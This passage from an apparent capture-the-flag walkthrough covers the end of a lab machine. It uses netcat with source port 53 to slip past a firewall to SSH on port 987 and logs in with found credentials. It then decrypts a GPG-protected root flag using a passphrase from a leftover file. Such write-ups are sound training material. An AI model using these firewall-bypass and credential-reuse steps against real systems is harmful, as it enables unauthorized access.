 This means by using the source port 53, it is possible to connect to port 987 and with `nc` the banner can be displayed what this service is:
```markdown
nc -p 53 192.168.5.2 987

SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```

It is a SSH service and by using port 53 as the source port, we can connect to port 987 on SSH with the found credentials as _dave_:
```markdown
ssh -p987 -o 'ProxyCommand nc -p 53 %h %p' dave@192.168.5.2
```

## Privilege Escalation to root

The home directory _/home/dave_ has a file called _root.txt.gpg_ which is an **encrypted PGP RSA key**.
```markdown
gpg root.txt.gpg
```
```markdown
encrypted with RSA key, ID D1EB1F03
```

The key with the ID _D1EB1F03_ is needed but the command `gpg --list-keys` does not show any keys.
After searching the other boxes, there is a key with this ID located on the initial box with the IP _10.10.10.109_:

```markdown
dave@ubuntu:~$ gpg --list-keys
/home/dave/.gnupg/pubring.gpg
-----------------------------
pub   4096R/0FDFBFE4 2018-07-24
uid                  david <dave@david.com>
sub   4096R/D1EB1F03 2018-07-24
```

Decoding the key with **Base32**:
```markdown
base32 root.txt.gpg
```

Copying the string into a file on _10.10.10.109_ and decoding it back:
```markdown
base32 -d root.txt.gpg.b64 > root.txt.gpg
```

It asks for a passphrase when trying to decrypt it:
```markdown
dave@ubuntu:~/Documents$ gpg root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

Enter passphrase:
```

In the beginning there were three files found but the _key_ file with the following content was never used:
```markdown
itscominghome
```

After using this passphrase, the file gets decrypted and the root.txt flag can be read!
